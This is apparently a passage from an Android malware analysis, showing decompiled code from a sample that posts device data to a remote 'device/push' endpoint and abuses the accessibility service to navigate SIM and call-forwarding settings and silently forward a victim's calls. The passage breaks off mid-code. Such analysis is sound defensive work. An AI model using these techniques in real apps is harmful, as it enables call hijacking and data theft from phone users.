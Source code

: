 ```cs
            if(LockerComponent.get() != null && LockerComponent.get().api() != null) {
                LockerComponent.get().api().makePost("device/push", hashMap0).enqueue(new RestCallback() {
                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onError(Throwable throwable0) {
                    }

                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onSuccess(RestResponse restResponse0) {
                    }
                });
            }
        }
        catch(Exception unused_ex) {
        }
    }

```

## Call Forwarding 

The malware can intercept calls and forward calls when the user get a phone call.

```cs

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        int v1;
        Log.d("OwnAccessibilityService", "onAccessibilityEvent -> " + accessibilityEvent0);
        Boolean boolean0 = Boolean.valueOf(false);
        if(accessibilityEvent0.getEventType() != 0x20) {
            return false;
        }

        if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.SimPickerPreference")) {
            if(accessibilityEvent0.getSource() == null) {
                return false;
            }

            this.isSecondSimActive = true;
            AccessibilityNodeInfo accessibilityNodeInfo0 = injAccessibilityService0.findAndGetFirstSimilar(accessibilityEvent0.getSource(), "com.android.phone:id/recycler_view", true);
            if(this.currentSim == SimCard.Sim1) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(0), "f");
                return false;
            }

            if(this.currentSim == SimCard.Sim2) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(1), "f");
                return false;
            }
        }
        else if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.GsmUmtsCallForwardOptions")) {
            if(accessibilityEvent0.getSource() != null) {
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }

            int v = 0;
            while(v <= 40) {
```